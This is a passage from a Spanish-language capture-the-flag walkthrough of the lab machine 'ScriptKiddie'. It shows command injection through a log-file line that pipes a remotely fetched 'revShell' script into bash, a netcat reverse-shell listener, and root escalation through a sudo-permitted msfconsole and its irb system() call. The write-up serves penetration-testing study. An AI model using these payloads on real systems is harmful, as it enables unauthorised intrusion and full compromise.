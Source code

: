 * Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Modifica el Payload agregando el comando **curl** y pipea **Bash**:
```bash
echo "[2023-05-08 23:10:46.713999] 10.10.10.226; curl Tu_IP/revShell | bash #" > hackers
```

* Cuando lo modifiques, ejecútalo y ve a la **netcat**:
```bash
nc -nvlp 443                            
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.226] 48562
bash: cannot set terminal process group (865): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
```
¡Listo! Ya somos el usuario **pwn**, ahora escalemos privilegios.

<h2 id="Root">Escalando Privilegios para ser Root con Metasploit Framework (Msfconsole)</h2>

**IMPORTANTE**:

No tenemos una shell interactiva, hazla interactiva y continuas.

-----------

Veamos qué privilegios tenemos:
```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Bien, entremos a **Metasploit**:
```bash
pwn@scriptkiddie:~$ sudo msfconsole
...
```

Hay una forma de escalar privilegios con esta consola de **Metasploit** y es con **Ruby**, debemos activar **Ruby** para poder hacer cosillas:
```bash
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> system("whoami")
root
=> true
```
